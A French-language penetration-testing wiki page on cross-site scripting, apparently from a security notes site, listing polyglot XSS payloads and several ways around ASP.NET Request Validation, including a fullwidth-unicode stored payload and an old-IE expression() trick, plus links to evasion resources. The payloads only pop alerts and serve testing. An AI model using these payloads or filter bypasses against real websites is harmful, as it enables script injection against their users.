 ```yaml
---
title: Cross Site Scripting
permalink: /XSS/
---
```


# Cross-Site Scripting

## Payloads

Les payloads suivants peuvent être utiles:

```text
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//"; alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
" onclick=alert(1)//<button ' onclick=alert(1)//>*/alert(1)//
```

## ASP.Net

ASP.Net a le mécanisme de "Request Validation" qui bloque de nombreuses tentatives XSS. Globalement tout payload de la forme "<a" (où a est une lettre ou le caractère ! sera bloqué).

Quelques bypass sont possibles:
- Sur les vieilles versions d'IE le payload <#tag
- Si on a une stored il est possible d'injecter un payload en unicode (voir [Bypassing ASP.NET “ValidateRequest” for Stored XSS attacks](https://infosecauditor.wordpress.com/2013/05/27/bypassing-asp-net-validaterequest-for-script-injection-attacks/)). Ceci est dû à une conversion qui est faite par la base de données (les caractères unicodes étant convertis en leur équivalent "standard"): 
``%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e``
- Sur les vieilles versions de IE et de ASP.net (patch en 2007) le payload suivant marche: ```</XSS STYLE=xss:expression(alert('XSS'))>```

D'autres bypass [Bypassing .Net ValidateRequest](http://www.procheckup.com/media/39734/bypassing-dot-net-validaterequest.pdf)

## Références

- [Master the art of Cross Site Scripting](https://brutelogic.com.br/blog/)
- [XSS without event handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/): pour les situations où les events du type onerror sont bloqués
- [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [PassiveXssScan](https://github.com/jkadijk/burp-plugins): un plugin pour identifier automatiquement les éléments "reflected" dans Burp.
